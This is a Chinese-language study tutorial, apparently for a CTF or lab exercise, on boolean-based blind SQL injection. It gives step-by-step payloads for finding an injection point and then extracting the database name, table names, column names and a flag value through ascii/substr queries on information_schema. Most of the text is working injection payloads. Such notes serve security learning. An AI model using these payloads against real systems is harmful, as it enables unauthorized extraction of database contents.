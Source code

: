[知识来源](https://blog.csdn.net/weixin_40709439/article/details/81355856)
**步骤：**

[TOC]

## 1. 查看是否存在注入点

```
?id=1 返回ok
?id=1' 无返回
?id=1 union select 1,2,3
```

则存在注入点，且是三个字段

也可以通过burp查看成功或者失败时的返回的content-length，来判断。

这里需要一些[分流]([一篇文章带你深入理解 SQL 盲注 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/170626#h2-13))的思想。最常见的是if语句，这个时候就可以将注入语句放到expr1，需要构造第三个返回值为false（可以用错误的sql查询语句,但是不能用(1=2)这种东西，猜测可能是因为他会直接返回(1=2)->空数组）

> if(expr1,expr2,expr3)
> expr1 的值为 TRUE，则返回值为 expr2 
> expr1 的值为 FALSE，则返回值为 expr3

## 2. 猜解长度

用二分法来猜解快

```
?id=1 and length(database())>10
?id=1 and if(length(database())>10,1,(select 1 union select 2))
```

## 3. 猜解字段名
```
?id=1 and ascii(substr(database(),1,1)) > 114
?id=1 and if(ascii(substr(database(),1,1)) > 114,1,(select 1 union select 2))
```

## 4.猜测数据库中表的数量

```
(select count(table_name) from information_schema.tables where table_schema=database())=5
```

## 5. 猜测表名的长度

```
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=1
```

## 6.猜测第一个表的表名

```
ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97
```

## 7. 猜测users表的字段数

```
(select count(column_name) from information_schema.columns where table_name='users')=1
```

## 8. 猜测users表每一列的长度

```
length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=1
```

## 9. 猜测column的名字

```
ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),1,1))>97
```

## 10. 查找最终内容

```
ascii(substr((select flag from security.flag limit 0,1),1,1))>97
```

## 11. 编写脚本

[bool_injection.py](./bool_injection.py)

